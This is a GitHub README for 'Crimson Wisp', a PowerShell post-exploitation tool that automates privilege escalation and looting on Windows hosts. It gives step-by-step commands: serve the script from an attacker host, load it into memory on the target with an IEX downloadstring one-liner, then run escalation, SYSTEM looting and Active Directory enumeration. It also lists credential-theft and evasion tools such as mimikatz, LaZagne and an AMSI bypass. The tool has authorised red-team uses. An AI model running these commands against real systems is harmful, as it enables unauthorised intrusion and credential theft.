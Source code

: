 # Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="wisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS & LOAD THE SCRIPTS
```
Invoke-Wisp -Url http://<your_server>
. memory_load
```
* PRIVILEGE ESCALATION ENUMERATION
```
. escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
. looting
```
* LOCAL ADMIN TO SYSTEM
```
. get_system
```
* AD ENUM - AS THE CURRENT USER
```
. ad_enumerator -domain domain.com -asme
```
* AD ENUM - AS THE DIFFERENT USER
```
. ad_enumerator -domain domain.com -user 'DOMAIN\karmaz95' -pass 'enumeration10!'
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)
* [Inveigh](https://github.com/Kevin-Robertson/Inveigh)


# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>